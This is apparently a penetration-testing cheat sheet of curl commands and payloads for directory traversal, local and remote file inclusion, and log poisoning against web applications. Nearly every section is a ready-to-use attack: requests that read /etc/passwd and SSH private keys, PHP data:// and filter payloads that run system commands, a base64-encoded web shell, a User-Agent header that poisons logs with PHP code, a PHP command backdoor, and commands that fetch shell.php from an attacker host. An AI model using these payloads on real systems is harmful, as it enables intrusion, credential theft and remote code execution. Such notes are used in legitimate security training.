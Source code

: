 # Basic Directory traversal
```bash
curl http://192.168.196.245/cgi-bin/../../../.././../../etc/passwd
curl http://192.168.196.245/index.php?page=../../../.././../../etc/passwd
curl http://192.168.196.245/index.php?page=../../../.././../..\Windows\System32\drivers\etc\hosts
curl http://houston01.skylark.com/download?filename=/../../../../../../../../../inetpub/wwwroot/appsettings.json&token=abc

> Interesting files
C:\inetpub\wwwroot\web.config
/home/user/.ssh/id_rsa
/home/user/.ssh/id_ecdsa
```
-----------------------

# Escaping Traversal
```bash
curl -path-as-is -d "echo Content-Type: text/plain; echo; whoami" "http://192.168.196.245:80/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
curl -path-as-is http://<ip>:<port>/../../../../../../../etc/passwd
```

-----------------------

# php filters with LFI
```bash
curl http://192.168.193.16/meteor/index.php?page=php://filter/convert.base64-encode/resource=../../../../../../../var/www/html/backup.php
curl http://192.168.193.16/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>"

>Encoded
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

-----------------------

# Log poisoning

Check log access
```bash
curl http://<IP>/index.php?page=../../../../var/log/apache2/access.log
curl http://<IP>/index.php?page=../../../..\xampp\apache\logs\access.log
```

Inject header
```bash
curl -A "Mozilla/5.0 <?php echo system($_GET['cmd']); ?>" http://meteor.com/meteor/index.php?page=admin.php
```

Get logs with command
```bash
curl http://<IP>/index.php?page=../../../../var/log/apache2/access.log&cmd=ls%20-la
```

-----------------------

# Remote File Inclusion

Simple backdoor
```bash
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

While serving the file via http server
```bash
curl "http://<IP>/index.php?page=http://<MY-IP>/simple-backdoor.php&cmd=ls"
```

-----------------------

# Uploaded RFI
```bash
cd /dev/shm/
wget http://kali/shell.php

curl http://localhost:8000/backend/?view=../../../../../../../../../dev/shm/shell.php
```
